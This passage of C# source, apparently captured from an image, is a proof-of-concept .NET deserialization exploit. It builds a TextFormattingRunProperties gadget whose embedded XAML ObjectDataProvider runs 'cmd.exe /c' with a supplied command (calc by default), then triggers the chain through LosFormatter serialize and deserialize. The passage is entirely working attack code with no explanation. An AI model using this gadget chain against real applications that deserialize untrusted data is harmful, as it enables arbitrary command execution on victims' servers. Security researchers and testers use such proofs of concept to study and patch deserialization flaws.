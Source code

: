 ```csharp
            LosFormatter losFormatter = new LosFormatter();
            using (MemoryStream memory = new MemoryStream())
            {
                TextFormattingRunPropertiesMarshal textFormattingRunPropertiesMarshal = new TextFormattingRunPropertiesMarshal();
                My my = new My();
                my.o = textFormattingRunPropertiesMarshal;
                losFormatter.Serialize(memory,my);
                memory.Position = 0;
                losFormatter.Deserialize(memory);
            }
            Console.ReadKey();
        }
    }
    [Serializable]
    public class My
    {
        public object o;
    }

    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        public static string gadget(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;
            
            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```